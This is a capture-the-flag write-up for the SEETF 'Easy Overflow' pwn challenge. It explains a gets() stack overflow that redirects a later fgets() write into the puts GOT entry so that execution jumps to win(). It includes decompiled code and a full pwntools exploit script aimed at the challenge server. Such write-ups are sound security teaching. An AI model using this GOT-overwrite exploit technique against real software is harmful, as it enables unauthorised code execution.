 ## Easy Overflow
![overflow](images/easyoverflow.png)

### Description
>I did a check on my return address. Now you shouldn't be able to control my RIP.\
>nc fun.chall.seetf.sg 50003\
>MD5: a9a706d9b8d73ec0ee5c39bf0505d85e


### Gain Shell
Bufferoverflow challenge, but this time no sourcecode given, we can decompile the ELF file with IDA or Ghidra. Here I'm using IDA7.7.\
No PIE and no Canary.
```bash
linuz@linz:~/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow$ checksec easy_overflow
[*] '/home/linuz/Desktop/CSI/Writeup/International/PWN-Writeup/SEECTF/easy_overflow/easy_overflow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
The **main()** function it's like this:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  puts("I will let you  overflow me.");
  vuln();
  puts("I will give you one more chance.");
  fgets(s, 8, stdin);
  puts(s);
  return 0;
}
```

And the **vuln()** function is like this:
```c
int vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  char *retaddr; // [rsp+28h] [rbp+8h]

  gets(v1);
  if ( retaddr != main + 70 )
  {
    puts("Naughty Boi\n");
    exit(-1);
  }
  return puts("Good  boi\n");
}
```

There's a bufferoverflow in **vuln()** because program using **gets()** but there's a manual check on return if return not **main+70** it will exit.\
With this bufferoverflow we can overwrite the address of **s** at **main()** function. So after back to main it will like this.\
![overflow](images/easyoverflow2.png)
```py
payload = b'A'*32
payload += p64(0xdeadbeef)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
```
With this we can overwrite the GOT PUTS to **win()** function. Because there's `lea, [rbp-0x20]` our value will be substracted with 0x20, just add +0x20 to get the correct value.

Full Script:

```py
from pwn import *
from sys import *

elf = context.binary = ELF("./easy_overflow")
p = process("./easy_overflow")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

HOST = 'fun.chall.seetf.sg'
PORT = 50003

cmd = """
b*0x00000000004011a1
"""

if(argv[1] == 'gdb'):
    gdb.attach(p,cmd)
elif(argv[1] == 'rm'):
    p = remote(HOST,PORT)


payload = b'A'*32
payload += p64(elf.got['puts']+0x20)
payload += p64(elf.sym['main']+70)
p.sendline(payload)
p.sendline(p64(elf.sym['win']))
p.interactive()
````
